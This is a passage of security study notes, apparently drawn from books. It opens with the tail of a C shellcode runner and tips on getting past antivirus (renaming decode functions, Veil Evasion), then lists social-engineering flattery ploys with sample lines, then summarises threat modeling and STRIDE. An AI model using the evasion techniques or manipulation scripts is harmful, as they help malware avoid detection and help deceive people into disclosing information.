          memcpy(exec, c, sizeof c);
          ((void(*)())exec)();
        }
        ``` 
      - In agent code don't use  words like `Base64Decode` (book uses `monkey` instead)
      - Veil Evasion
- Social Engineering 
  - Fuzzy Fact (hand writing of name is not clesr, hence ask for help)
  - Psychic Credit 
    - credit them with knowledge or experience they don’t have
    - treating the target as an equal and according them the respect of a peer
    - "I’m normally not used to dealing with people who know what they’re talking about—this is a nice change!"
    - "You’re the expert so I was wondering if you could tell me...."
  - The Rainbow Ruse
    - statement that credits the client with both a personality trait and its opposite
    - irrefutable statement and that’s social engineering gold
  - Flattery / praising the concern / 
    - similar to the psychic credit, but is broader in its approach (“You’re warm and loving.”)
    - “I have to say I think your adherence to the essence of what security really is is spot on. Getting the balance right between functional process and security is never easy, but I think you’ve really judged it well—probably a bit better than most companies in your sector. At least in my experience.”
  - The Jacques Statement
  - The Barnum Statement
    - “something to please everybody.”
    - Statement is one that is designed to ring true to everyone

### Threat Modeling Designing for Security

- Threat modeling is the use of abstractions to aid in thinking about risks.
  - Without threat models, you can never stop playing whack-a-mole
  - Threat modeling should focus on issues that other techniques can’t find
  - “Think Like an Attacker” Considered Harmful
    - thinking like a professional chef: Even if you’re a great home cook, a restaurant-managing chef has to wrestle with problems that a home cook does not.
    - you may end up with implicit or incorrect assumptions about how an attacker will think
    - may lead you to focus on the wrong threats
- Reasons to Threat Model
  - Find Security Bugs Early
  - Understand Your Security Requirements
  - Engineer and Deliver Better Products
  - Address Issues Other Techniques Won’t
    - errors of omission (no code analysis tool will find)
    - issues unique to your design
- Four step framework 
  - Model System - What are you building?
    - Show trust boundaries 
      - Accounts (UIDs on unix systems, or SIDS on Windows)
      - Network interfaces
      - Different physical computers
      - Virtual machines
      - Organizational boundaries
      - Almost anywhere you can argue for different privileges
  - Find Threats - What can go wrong with it once it’s built?
    - **Spoofing** - pretending to be something or someone you’re not.
      - Someone might pretend to be another customer -> authenticate users
      - Someone might also pretend to be your website -> SSL certificate and single domain
    - **Tampering** - modifying something you’re not supposed to modify.
      - Data tampering at backend
      - Data tampering during transit 
      - Someone deploy code thinking it's dev-env
      - Angry programmer adding a discount code
    - **Repudiation** - claiming you didn’t do something (regardless of whether you did or not).
      - Logs and log tampering prevention
    - **Information Disclosure** - exposing information to people who are not authorized to see it.
      - Can anyone connect to DB
      - What happens if someone connect to DB 
    - **Denial of Service** - attacks designed to prevent a system from providing service
      - What happens if 1000s of request come at same time
    - **Elevation of Privilege** - program or user is able to do things that they’re not supposed to do.
      - What prevents users from connecting directly to the backend
      - What controls access to DB 
  - Address Threats - What should you do about those things that can go wrong?
    - Mitigating threats - doing things to make it harder to take advantage of a threat
    - Eliminating threats - almost always achieved by eliminating features
    - Transferring threats - letting someone or something else handle the risk
    - Accepting the risk
  - Validate - Did you do a decent job of analysis?
- Identifying Threats
  - Start with external entities
  - Never ignore a threat because it’s not what you’re looking for right now
  - Focus on feasible threats
